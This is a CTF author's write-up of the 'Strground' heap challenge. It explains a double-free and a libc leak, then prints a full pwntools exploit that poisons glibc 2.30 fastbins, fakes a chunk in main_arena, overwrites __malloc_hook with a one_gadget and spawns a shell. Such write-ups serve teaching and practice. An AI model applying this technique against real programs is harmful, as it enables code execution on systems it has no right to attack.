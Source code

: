 ```yaml
---
title: "Strground official writeup"
description: "Strground is a pwn challenge I created for Unbreakable Romania 2024."
date: "Mar 22 2024"
---
```

Strground is a heap exploitation challenge I made for the individual phase of the Unbreakable Romania CTF.

In the zip file we receive libc.so.6 which is GLIBC 2.30, however tcache is disabled. So this will be a fastbins heap challenge.
The binary has all the mitigations except canary:
![](./checksec.png)

Opening the binary in ida, we have 3 interesting functionalities:

1. CREATE:
![](./create.png)

It creates a heap chunk with the size of the length of the string sent. However the size can't be bigger than 0x57.

2. DELETE:
![](./delete.png)

It deletes the heap chunk corresponding to the index you send.

3. ENCODE:
![](./encode.png)

It executes a simple ROT encoding algorithm on your string.

The binary is clearly vulnerable to double free. After freeing a chunk via the DELETE command the pointer isn't nulled.
A double free occurs when the free() function is called more than once for the same memory address without allocating it again in between.
Now, when you request a new chunk of that size using malloc, the allocator will allocate a block that has been freed twice. This can result in two different pointers referencing the same memory location. If an attacker controls one of these pointers, they can alter the contents of the memory, potentially enabling them to execute arbitrary code.

Let's try this. Create a double free:
![](./doublefree.png)

Dynamically inspecting the heap, we can see that the program free'd the same memory twice.
![](./doublefree2.png)

Usually this would have been a free win. Make a fake chunk before the ```__malloc_hook``` and use the values from the libc pointers to create a fake size (since all libc addresses usually start with 0x7f).

The problem? You can malloc chunks up to size 0x60, which means you won't be able to create a 0x70 sized chunk to be able to overwrite malloc hook with a usual exploitation.

So, what can we do? This is where the main arena comes into place.
In glibc, memory allocation functions such as malloc, free, realloc, etc., are implemented using a heap management system. The "main arena" is the primary heap from which memory is allocated. It is a central structure that manages memory blocks, and keeps track of free and allocated memory chunks.

This would be a representation of the main arena for the fastbins:
![](./arena.png)

The intended solution was to use two double frees. In the first double free we will put a fake size in the main arena. In the second double free we will put a pointer in the main arena so when we allocate the next 0x60 sized chunk, malloc will interpret the chunk at the main arena as a valid chunk and we will be able to overwrite the main arena's top pointer.

This might sound complicated, so let's put it into practice.
The leak part of the exploit is straightforward: the ENCODE function uses a buffer that isn't initialized to zero and still contains random addresses from the stack. We'll create an empty string so that when encoding, the addresses from the stack will be encoded and printed.
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall")
p = elf.process()

def create(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

def delete(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

# Get libc leak
p.sendline(b"CREATE ")
p.readuntil(b'\n')
p.sendline(b"ENCODE 0")
p.readuntil(b'\n')

bytes_list = []

for _ in range(6):
    byte = ord(p.read(1)) - 3
    bytes_list.append(byte)

bytes_list.reverse()
address_str = '0x' + ''.join(
    format(byte, '02x') for byte in bytes_list)
Libc = int(address_str, 16) - 6458048 
print("Libc : {}".format(hex(Libc)))
```

After getting the libc base address we can continue with our exploitation. First, we'll set a fake size in the main arena.
```python
# First double free to put fake size in main_arena
create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)
delete(b"DELETE 1")
delete(b"DELETE 2")
delete(b"DELETE 1")
create(b"CREATE " + p64(0x61) + b'\x00'*0x38)
create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)
```

Inspecting the main arena:
![alt text](./mainarena.png)

We can notice our fake size was put in 0x0007f2ee0db4b88 which normally is the place for the 0x50 fastbin pointer. We'll continue with the next double free to set a pointer in the place for the 0x60 fastbins.
```python
create(b"CREATE luma1234" + b'\x00'*0x48)
create(b"CREATE Luma1234" + b'\x00'*0x48)
delete(b"DELETE 6")
delete(b"DELETE 7")
delete(b"DELETE 6")
# Address in main_arena where the pointer for 0x60 fastbins
# should be - 16 accounting for heap chunk metadata
create(b"CREATE " + p64(Libc + 3885952) + b'\x00'*0x48)
create(b"CREATE luma1234" + b'\x00'*0x48)
create(b"CREATE Luma1234" + b'\x00'*0x48)
```

Inspecting the main arena again:
![](./mainarena2.png)

Now, the next 0x60 chunk will start at the selected address in main_arena. Lets test this and create a string with 0x57 A's
![](./mainarena3.png)

And our logic was correct. The next 0x60 sized chunk started in the main_arena and we successfully overwrote the main arena top pointer. 

The rest is easy, overwrite the top pointer with the address of ```__malloc_hook``` - 35 (Accounting for the fake chunk size needed) and then overwrite the malloc hook with one_gadget. We'll also need to replace addresses after the top chunk so malloc won't fail.
```python
create(b"CREATE " + b"A"*48 + p64(Libc + 3885869) + 
b'\x00'*8 + p64(Libc + 3886016) * 2)

# Overwrite &__malloc_hook
create(b"CREATE " + b"A"*19 + p64(Libc + 0xe1fa1))

# Execute the one_gadget with a random malloc call
create(b"CREATE " + b'A'*0x28)
```

The full exploit:
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall")
p = elf.process()
#p = remote("127.0.0.1", 1338)

def create(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

def delete(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

# Get libc leak
p.sendline(b"CREATE ")
p.readuntil(b'\n')
p.sendline(b"ENCODE 0")
p.readuntil(b'\n')

bytes_list = []

for _ in range(6):
    byte = ord(p.read(1)) - 3
    bytes_list.append(byte)

bytes_list.reverse()
address_str = '0x' + ''.join(
    format(byte, '02x') for byte in bytes_list)
Libc = int(address_str, 16) - 6458048 
print("Libc : {}".format(hex(Libc)))

create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)
delete(b"DELETE 1")
delete(b"DELETE 2")
delete(b"DELETE 1")
create(b"CREATE " + p64(0x61) + b'\x00'*0x38)
create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)

create(b"CREATE luma1234" + b'\x00'*0x48)
create(b"CREATE Luma1234" + b'\x00'*0x48)
delete(b"DELETE 6")
delete(b"DELETE 7")
delete(b"DELETE 6")

create(b"CREATE " + p64(Libc + 3885952) + b'\x00'*0x48)
create(b"CREATE luma1234" + b'\x00'*0x48)
create(b"CREATE Luma1234" + b'\x00'*0x48)

create(b"CREATE " + b"A"*48 + p64(Libc + 3885869) +
b'\x00'*8 + p64(Libc + 3886016) * 2)

create(b"CREATE " + b"A"*19 + p64(Libc + 0xe1fa1))
create(b"CREATE " + b'A'*0x28)

p.interactive()
```

Executing it we get a shell:
![](./shell.png)

Thank you for reading, I hope you found the challenge interesting.

If you want to try it, you can find an archive containing the Dockerfile, source code, exploit, and binary [here](https://raw.githubusercontent.com/qLuma/qLuma.github.io/main/challs/strground.zip)